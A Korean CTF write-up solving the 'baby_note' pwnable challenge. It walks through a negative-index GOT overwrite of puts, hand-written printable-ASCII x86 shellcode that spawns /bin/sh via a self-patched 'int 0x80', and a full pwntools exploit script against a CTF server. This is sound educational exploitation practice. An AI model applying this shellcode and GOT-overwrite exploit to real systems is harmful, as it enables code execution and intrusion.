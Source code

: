 ```yaml
---
layout: post
title:  "baby_note ([pwnable.tw]-death note)"
date:   2020-09-23
categories: ["2020","pwnable"]
comment: true
update:   2020-09-23
tags: [pwnable]
---
```


최근에 매주 월요일마다 pwnable 문제를 풀려고 하고 있는데, 친구가 이 문제를 풀어보라고 해서 풀어봤다. 처음에 뭔가 잘 보여서 쉽게 끝나나 했는데 아니었다ㅠㅠ.


내가 문제 풀려고 ida부터 키니까 `checksec`부터 하라고 훈수를 뒀다.
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
PIE가 꺼져있고, Full RELRO가 아니다. GOT를 덮어씌울 수 있을 것 같다.

GOT를 어떻게 덮어씌울 것인지 생각해보라 그랬다. 그래서 우리가 입력 넣어주는 부분을 찾아보니 `add_note`함수가 있다.

### add_note 함수 :

![](https://images.velog.io/images/bgeunjo/post/07569ece-3e53-4c90-8bee-e6fdc2d29e17/KakaoTalk_20200908_054454698.png)

`int`형에 Index를 입력받아서 음수의 인덱스도 참조가 가능하다. 그리고 내가 입력한 문자열(Name)을 `strdup()`을 사용해 heap에 복사해주고, 그 주소를 `note[v1]`에 써준다.

🤔 `note`변수는 전역 변수라서 `bss`영역에 있다. `bss`영역보다 좀 더 작은 주소에 `got`영역이 있다.

![](https://images.velog.io/images/bgeunjo/post/ec37a06d-25f0-49c5-8eae-0f05cd9d3efd/KakaoTalk_20200908_055258561.png)

`note`변수의 주소가 `0x0804a060`이다.
![](https://images.velog.io/images/bgeunjo/post/4c9000cc-e43f-41dc-9780-1a3f54388c6d/KakaoTalk_20200908_055306475.png)

`got`영역의 주소가 `0x0804a0~`이다.

❗ Index는  (`note` - 원하는 함수(`puts`)의 `got` ) / 4로 해주면 될 것 같다. 4를 나눠주는 이유는 `v1`이 `int`라서 index * 4 만큼 주소가 커지거나 작아지기 때문이다
- 근데 / 2 해줬음.. 그래야 맞게 들어가던데 왜 그런지는 잘 모르겠다.

그럼 이제 `puts()'s got`에는 `strdup()`에 의해 내가 쓴 문자열이 복사된 곳의 주소(`heap`)가 쓰이게 된다. 그럼 내가 쓴 문자열(명령어)이 실행이 되는 것이다.

그래서 쉘코드를 쓰려고 하는데 넣을 수 있는 문자에 제한이 걸려있다.

![](https://images.velog.io/images/bgeunjo/post/e62e817c-262b-4628-976d-901206ef1598/KakaoTalk_20200908_055727963.png)

아스키코드 범위 `0x20` ~ `0x7e`의 값만 쓸 수 있다. 그래서 Ascii shellcode를 검색해서 쓰려고 하는데 잘 안된다.. 여기서 시간을 되게 많이 썼다.

🤔 우리가 평소에 쓰는 쉘코드(`shellcraft.sh()`)는 `execve(path='/bin///sh', argv=['sh'], envp=0)` 이다. `argv`는 `NULL`이 되어도 된다. 

❗ 이제 해야할 일이 정해졌다! 
- `syscall(int 80)`을 이용해 `execve`를 호출할 것이기 때문에 `syscall` 호출 규약에 맞게 인자를 세팅해준다.
- `syscall_table`을 참고하면 `execve`는 `eax=11`일 때 실행 된다.

### 쉘코드 작성

쉘코드를 작성해보자.

```
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx      
    push 0x31
    pop eax
    xor al,0x31
    dec eax
    xor ax,0x3f50
    xor ax,0x4062
    push eax
    pop edi                               
    push 0x3b    
    pop eax
    xor al,0x30
    push edx
    pop esi
    push ecx
    pop edx
    push edx
    pop edx
    push edx
    pop edx
    push edx
    xor [esi+0x30],di
```

처음부터 ㅂㅂㅈ ㅂㅂㅈ~ 🚀

```
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
```
문자열 `/bin///sh`를 스택에 푸쉬해준다. `/bin/sh`가 아니라 `/bin///sh`를 쓴 이유가 뭘까?
- `/bin/sh`를 쓰게 되면 `push 0x68732f`를 하게 된다. 즉 opcode에 `0x00`이 포함되게 되어, 허용되는 아스키코드 범위를 벗어난다.
- `/bin//sh`를 해주게 되면 `push 0x68732f2f`를 하게 되는데, 끝에 `NULL`이 없어 내가 원치 않는 문자열까지 뒤에 연결되게 된다.

```
    push esp
    pop ebx
```
`ESP`는 현재 `/bin///sh`를 가리키고 있다. 그 문자열의 주소를 `EBX`에 넣어준다. `syscall`의 매개변수 세팅을 위해서다.


```
    push 0x31
    pop eax
    xor al,0x31
    dec eax
    xor ax,0x3f50
    xor ax,0x4062
    push eax
    pop edi   
```

`EAX`를 0으로 세팅한 후, 1을 감소시켜서 `0xffffffff`로 만든다. 가장 만드는데 골치 아픈 `0x80cd`(int 0x80=`syscall`) opcode를 편하게 만들기 위해 1을 다 on 시켜준 것이다. 그리고 적당한 값을 xor해서 `0x80cd`를 만들어준다. `xor eax, ~`는 허용되는 아스키코드 범위를 넘어가는 opcode를 만들기 때문에 `xor ax, ~`로 해준다. 
그렇게 만든 값을 `edi`에 넣어준다. `eax`는 이 후에도 써야 하는데, `edi`는 쓰이는 곳이 없기 때문이다.

```
    push 0x3b    
    pop eax
    xor al,0x30
````

`execve()`를 호출하기 위해서는 `syscall`할 때 `eax=11`이어야 하기 때문에, 세팅해준다.

```
    push edx
    pop esi
    push ecx
    pop edx
```

`puts()`를 실행시키는 시점에 `edx`는 내가 쓴 문자열의 시작주소(`heap`)를 가리키고 있다.
근데 `syscall` 매개변수 세팅해줄 때 `edx=0`을 맞춰줘야 하기 때문에 `esi`에 넣어놓고, 이미 0이었던 `ecx`를 이용해 `edx`를 0으로 만든다.(이거 까먹어서 욕먹음 ㅠ)

``` 
    push edx
    pop edx
    push edx
    pop edx
    push edx
    xor [esi+0x30],di
```
`xor [esi+0x30],di`에서 `0x30`은 내가 입력한 명령어의 총 길이다. 문자열(명령어)이 끝나는 곳에 `0x80CD`를 넣어준다.
마지막에 `push edx pop edx` 들은 길이를 맞춰주려고 아무거나 넣은거다. 걍 아스키코드 범위에 들어가는 거 아무거나 써도 된다. 길이를 안 맞춰주니까 내가 쓴 문자열 + a 에 이미 쓰여진 값이 있었는데, 그 값에 영향을 받아 원하는 값이 안 들어갔다. 

![](https://images.velog.io/images/bgeunjo/post/a9b97bed-28fe-4794-a520-658cf7665e5f/baby_note3.PNG)

`xor [esi+0x30],di`을 실행하는 시점의 레지스터 상태이다. `syscall`의 매개변수로 쓰이는 `ecx`,`edx`는 0으로 세팅되어 있고 `ebx`는 `/bin///sh`를 주소를 담고 있다.
`syscall_table`에서 `execve()`에 해당하는 11(`0xb`)가 `eax`에 세팅되어 있다. `edi` 중에서 `di`부분만 보면 `0x80cd(int 0x80)`로 세팅되어 있다.

![](https://images.velog.io/images/bgeunjo/post/110ae669-66df-48db-8e8c-69c6956f833b/baby_note2.PNG)

마지막 명령어를 실행하고 나면 위치에 딱 맞게 `int 0x80`이 들어간 것을 확인할 수 있다. 이제 저 명령어(`syscall`)를 실행해주면 쉘이 따진다!

### Exploit code

``` python
from pwn import *
import sys

if len(sys.argv) != 2:
    log.info("try options -l for local, -r for remote")
    exit()
if sys.argv[1].strip()=='-l':
    p=process('./baby_note')
elif sys.argv[1].strip()=='-r':
    p=remote("srv.cykor.kr",31009)

#context.log_level='debug'
e=ELF('./baby_note')

bss=e.bss()
puts_got=e.got['puts']
offset=(puts_got-bss)/2

shellcode="""
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx      
    push 0x31
    pop eax
    xor al,0x31
    dec eax
    xor ax,0x3f50
    xor ax,0x4062
    push eax
    pop edi                               
    push 0x3b    
    pop eax
    xor al,0x30
    push edx
    pop esi
    push ecx
    pop edx
    push edx
    pop edx
    push edx
    pop edx
    push edx
    xor [esi+0x30],di
"""
shellcode=asm(shellcode)
log.info("shellcode Length: "+str(hex(len(shellcode))))
log.info(shellcode)

#gdb.attach(p)
p.recvuntil("Your choice :")
p.sendline("1")
p.recvuntil("Index :")
p.sendline(str(offset))
p.recvuntil("Name :")
#raw_input()
p.sendline(shellcode)
#raw_input()
p.interactive()
```

![](https://images.velog.io/images/bgeunjo/post/39c971db-d3e5-4a04-abe2-84b06ae0490d/shell.PNG)
